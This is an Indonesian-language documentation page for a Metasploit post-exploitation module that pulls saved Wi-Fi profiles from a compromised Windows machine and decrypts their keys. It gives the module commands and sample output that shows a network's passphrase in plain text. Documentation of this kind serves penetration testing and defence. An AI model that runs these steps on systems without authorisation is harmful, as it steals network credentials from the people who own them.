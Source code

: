# wlan_profile 

Modul ini mengekstrak profil `LAN` nirkabel yang tersimpan. Modul ini juga akan mencoba mendekripsi materi kunci jaringan. Perilaku sedikit berbeda antar versi sistem operasi untuk `WPA`. Pada `Windows Vista/7`, kita akan mendapatkan frasa sandi (`passphrase`). Pada `Windows XP`, kita akan mendapatkan kunci turunan `PBKDF2`.

## PenulisAuthor
- theLightCosine theLightCosine@metasploit.com

## Platform
- `Windows`

## Cara Penggunaan di Metasploit

```
use post/windows/wlan/wlan_profile
set SESSION <ID>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[+] Wireless LAN Profile Information 
GUID: {28b9c93f-a298-45f8-b88c-8f898895ee2b} Description: Realtek 8814AU Wireless LAN 802.11ac USB NIC State: The interface is not connected to any network.
 Profile Name: COMPASS CIKARANG
<?xml version="1.0"?>
<WLANProfile xmlns="http://www.microsoft.com/networking/WLAN/profile/v1">
	<name>COMPASS CIKARANG</name>
	<SSIDConfig>
		<SSID>
			<hex>434F4D504153532043494B4152414E47</hex>
			<name>COMPASS CIKARANG</name>
		</SSID>
	</SSIDConfig>
	<connectionType>ESS</connectionType>
	<connectionMode>auto</connectionMode>
	<MSM>
		<security>
			<authEncryption>
				<authentication>WPA2PSK</authentication>
				<encryption>AES</encryption>
				<useOneX>false</useOneX>
			</authEncryption>
			<sharedKey>
				<keyType>passPhrase</keyType>
				<protected>false</protected>
				<keyMaterial>qwerty12345</keyMaterial>
			</sharedKey>
		</security>
	</MSM>
	<MacRandomization xmlns="http://www.microsoft.com/networking/WLAN/profile/v3">
		<enableRandomization>false</enableRandomization>
	</MacRandomization>
</WLANProfile>

[*] WlanAPI Handle Closed Successfully
[*] Post module execution completed
```

## Referensi
- [Rapid7](https://www.rapid7.com/db/modules/post/windows/wlan/wlan_profile/)
